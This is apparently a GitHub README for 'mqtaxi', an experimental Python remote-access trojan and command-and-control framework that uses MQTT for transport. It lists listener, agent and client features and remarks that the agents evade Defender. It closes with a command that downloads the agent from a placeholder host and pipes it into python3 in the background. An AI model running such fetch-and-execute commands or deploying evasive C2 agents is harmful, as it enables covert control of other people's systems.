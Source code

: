 # mqtaxi
### Experimental Python mqtt RAT/C2/Etc

This is a **toy** not meant for real Red Team engagements.  However I randomly make updates or add features to test the useability of mqtt as a transport mechanism for offensive use.  Collaboration on this project is welcome.

![Screenshot from 2022-11-21 12-45-32](https://user-images.githubusercontent.com/36344197/203133130-4aadeecc-7b3f-47c5-a5ea-8e8412f4de46.png)

The idea comes from using existing and trusted transport methods to achieve nefarious goals.  Mqtt's pub/sub type method of communication is perfectly situated for this and is common especially with iot type devices.  Mosquitto mqtt is easy to set up and also supports using forwarders.

Using mqtt as a remote shell mecahnism has been done before and isn't anything new, however I wanted to attempt to give it a more polished interface as seen in many other C2 type frameworks.

---

**Current status:**

Mqtt connection is negotiated with paho.mqtt Python library

The client allows for typical creation of listeners, however the listener is actually a mqtt server that is either public or privately hosted using either tcp or websockets.  The mqtt server itself is just a standard Mosquitto mqtt server however I have included a default.conf and install script to get it running quickly.

![Screenshot from 2022-11-21 12-51-24](https://user-images.githubusercontent.com/36344197/203134494-9bb2e419-83e5-40fe-a514-4274c72dfb2e.png)

The client has the ability to connect to an agent to run pub/sub commands and see responses from terminal as well as Upload/Download functionality.  However as mentioned previously this is very much a work in progress.

![Screenshot from 2022-11-21 12-48-18](https://user-images.githubusercontent.com/36344197/203134445-663f5f10-3c89-4d56-9293-1ffed4da409d.png)

Python agents are generated using the 'generate' command within the config menu depending upon which listener you have activated using 'uselistener'.  I would like to add many more agents besides Python based.

![Screenshot from 2022-11-21 12-51-53](https://user-images.githubusercontent.com/36344197/203135028-4b2aba7e-2a57-4a93-9263-80442241d025.png)

---

**Some notes:**
- It is bloated and needs work
- It uses Python agents
- Doesn't follow standard accepted Python styles of coding, oops.
- It currently works, and isn't detected with Defender most of the time. (Please don't upload agents to virustotal)

**Listener Features:**
- Multi handler with Mosquitto mqtt pub/sub listener
- SSL TCP (mqtts://) or Websockets (wss://)
- Supports user/pass for authentication
- Supports ACL restrictions per topic

**Agent Features:**
- Remote shell (needs work or complete rewrite with pty or something similar, however currently works)
- Upload / Download
- Linux and Windows agents

**Client Features:**
- Add listeners (public or private)
- Generate agents per activated listener
- Session listing and connection
- Pub/Sub content is encrypted from MQTaxi to agent and visa versa, however, it is a python agent so...

**Work Needed:**
- Remove bloat
- Add jitter
- Add agents that use different languages besides Python
- Python agent pty.fork possibly
- Complete overhaul?  Who knows
- Include install script for mqtt forwarder
- Implement mqtt QoS and Last Will & Testament

**Execution of agent:**

The Python agent can be executed on a linux host with something like..

`yes|pip3 install paho.mqtt;nohup curl -s -X GET -H 'file:doit.py' https://my.hosted.something.com/3_tcp_lin.py|python3&exit`




	
